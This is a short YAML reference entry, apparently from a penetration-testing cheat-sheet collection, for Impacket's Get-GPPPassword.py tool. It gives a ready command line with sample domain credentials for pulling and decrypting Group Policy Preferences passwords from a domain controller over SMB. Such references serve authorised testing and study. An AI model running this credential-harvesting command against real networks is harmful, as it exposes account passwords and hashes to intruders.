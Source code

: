 ```yaml
---
description: |
  Python script to automatically extract and decrypt Group Policy Preferences (GPP) passwords using streams for carving files instead of mounting shares

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 Get-GPPPassword.py 'TEST.local/john:password123@DC01.TEST.local' -dc-ip 10.10.10.1
items:
  - Password
  - Username
  - Hash
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Enumeration
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py
  - https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/
---
```

